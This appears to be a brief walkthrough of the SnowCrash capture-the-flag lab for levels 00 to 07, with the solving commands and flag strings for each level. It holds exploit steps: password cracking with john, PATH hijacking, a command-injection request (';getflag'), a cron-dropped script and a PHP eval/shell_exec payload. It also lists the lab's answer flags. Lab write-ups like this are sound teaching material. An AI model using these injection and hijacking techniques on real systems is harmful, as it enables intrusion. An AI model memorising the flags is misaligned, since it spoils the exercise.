 
Image: `/sgoinfre/goinfre/ISO/SnowCrash.iso`  

## Level00

`ssh -l level00 -p <port> 127.0.0.1`  
```
find / -user flag00 2>/dev/null
strings /usr/sbin/john
```
-> multi decoder  

`ssh -l flag00 -p <port> 127.0.0.1`
```
getflag
```

> `level00`
> `nottoohardhere`

## Level01

```
$> scp -P <port> level01@127.0.0.1:/etc/passwd /tmp/level01.txt
$> docker run --rm --name level01 -it debian:latest
#> apt-get update && apt-get -y install john
$> docker cp /tmp/level01.txt level01:/root/
#> john --show /root/level01.txt
```

> `x24ti5gi3x0ol2eh4esiuxias`
> `abcdefg`

## Level02

```
scp -P <port> level02@127.0.0.1:~/level02.pcap /tmp
chmod u+r /tmp/level02.pcap
```
-> wireshark -> follow TCP stream  
```
man ascii
```

> `f2av5il02puano7naaf6adaaf`
> `ft_waNDReL0L`

## Level03

```
strings ~/level03
PATH=/tmp:$PATH
ln -s /bin/getflag /tmp/echo
~/level03
```

> `kooda2puivaav1idi4f57q8iq`

## Level04

```
cat ~/level04.pl
curl --get --data-urlencode 'x=a;getflag' localhost:4747
```

> `qi0maab88jeaj46qoumi7maus`

## Level05

```
cat /var/mail/level05
cat <<_EOF > /opt/openarenaserver/level05.sh
#!/bin/sh
getflag >/tmp/flag.txt 2>&1
_EOF
watch -n 1 cat /tmp/flag.txt
```
> `ne2searoevaevoem4ov4ar8ap`

## Level06

```
php --version
```
[PHP - Documentation for PHP 5](https://www.php.net/manual/php5.php)  
[PHP 5 - PCRE Patterns - Pattern Modifiers - eval](https://php-legacy-docs.zend.com/manual/php5/en/reference.pcre.pattern.modifiers#reference.pcre.pattern.modifiers.eval)  
[PHP 5 - Process Control Extensions - System program execution](https://php-legacy-docs.zend.com/manual/php5/en/book.exec)  
```
cat <<_EOF >/tmp/level06.txt
[x {\${shell_exec(\$z)}}]
_EOF
~/level06 /tmp/level06.txt getflag
```

> `viuaaale9huek52boumoomioc`

## Level07

> `wiok45aaoguiboiki2tuin6ub`


